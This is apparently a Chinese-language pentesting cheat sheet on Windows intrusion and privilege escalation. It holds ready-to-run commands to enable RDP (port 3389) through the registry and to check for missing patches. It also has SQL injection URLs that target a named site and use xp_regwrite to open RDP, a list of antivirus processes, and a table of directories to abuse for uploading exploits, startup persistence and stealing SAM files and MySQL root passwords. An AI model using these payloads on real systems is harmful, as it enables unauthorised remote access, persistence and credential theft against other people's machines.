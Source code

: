 把cmd.exe复制到c:\windows的temp目录下并命名为cmd.txt：`copy c:\windows\temp\cookies\cmd.exe c:\windows\temp\cmd.txt`

开3389端口的命令：`REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal” “Server /v fDenyTSConnections /t REG_DWORD /d 0 /f`

查看补丁：`dir c:\windows\>a.txt&(for %i in (KB952004.log KB956572.log KB2393802.log KB2503665.log KB2592799.log KB2621440.log KB2160329.log KB970483.log KB2124261.log KB977165.log KB958644.log) do @type a.txt|@find /i “%i”||@echo %i Not Installed!)&del /f /q /a a.txt`

## SQL语句直接开启3389 

3389登陆关键注册表位置：

```bash
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\DenyTSConnections
```

其中键值DenyTSConnections 直接控制着3389的开启和关闭，当该键值为0表示3389开启，1则表示关闭。

而MSSQL的xp_regwrite的存储过程可以对注册进行修改，我们使用这点就可以简单的修改DenyTSConnections键值，从而控制3389的关闭和开启。

开启3389的SQL语句：

```bash
syue.com/xiaohua.asp?id=100;exec master.dbo.xp_regwrite’HKEY_LOCAL_MACHINE’,'SYSTEM\CurrentControlSet\Control\Terminal Server’,'fDenyTSConnections’,'REG_DWORD’,0;–
```

关闭3389的SQL语句：

```bash
syue.com/xiaohua.asp?id=100;exec master.dbo.xp_regwrite’HKEY_LOCAL_MACHINE’,'SYSTEM\CurrentControlSet\Control\Terminal Server’,'fDenyTSConnections’,'REG_DWORD’,1;–
```

## 常见杀软 

* 360tray.exe  360实时保护
* ZhuDongFangYu.exe  360主动防御
* KSafeTray.exe  金山卫士
* McAfee McShield.exe  麦咖啡
* SafeDogUpdateCenter.exe  服务器安全狗

## Windows提权中敏感目录和敏感注册表的利用

| 敏感目录                                                     | 目录权限                            | 提权用途                                         |
| ------------------------------------------------------------ | ----------------------------------- | ------------------------------------------------ |
| C:\Program Files\                                            | 默认用户组users对该目录拥有查看权   | 可以查看服务器安装的应用软件                     |
| C:\Documents and Settings\All Users\「开始」菜单\程序        | Everyone拥有查看权限                | 存放快捷方式，可以下载文件，属性查看安装路径     |
| C:\Documents and Settings\All Users\Documents                | Everyone完全控制权限                | 上传执行cmd及exp                                 |
| C:\windows\system32\inetsrv\                                 | Everyone完全控制权限                | 上传执行cmd及exp                                 |
| C:\windows\my.iniC:\Program Files\MySQL\MySQL Server 5.0\my.ini | 默认用户组users拥有查看权限         | 安装mysql时会将root密码写入该文件                |
| C:\windows\system32\                                         | 默认用户组users拥有查看权限         | Shift后门一般是在该文件夹，可以下载后门破解密码  |
| C:\Documents and Settings\All Users\「开始」菜单\程序\启动   | Everyone拥有查看权限                | 可以尝试向该目录写入vbs或bat，服务器重启后运行。 |
| C:\RECYCLER\D:\RECYCLER\                                     | Everyone完全控制权限                | 回收站目录。常用于执行cmd及exp                   |
| C:\Program Files\Microsoft SQL Server\                       | 默认用户组users对该目录拥有查看权限 | 收集mssql相关信息，有时候该目录也存在可执行权限  |
| C:\Program Files\MySQL\                                      | 默认用户组users对该目录拥有查看权限 | 找到MYSQL目录中user.MYD里的root密码              |
| C:\oraclexe\                                                 | 默认用户组users对该目录拥有查看权限 | 可以尝试利用Oracle的默认账户提权                 |
| C:\WINDOWS\system32\config                                   | 默认用户组users对该目录拥有查看权限 | 尝试下载sam文件进行破解提权                      |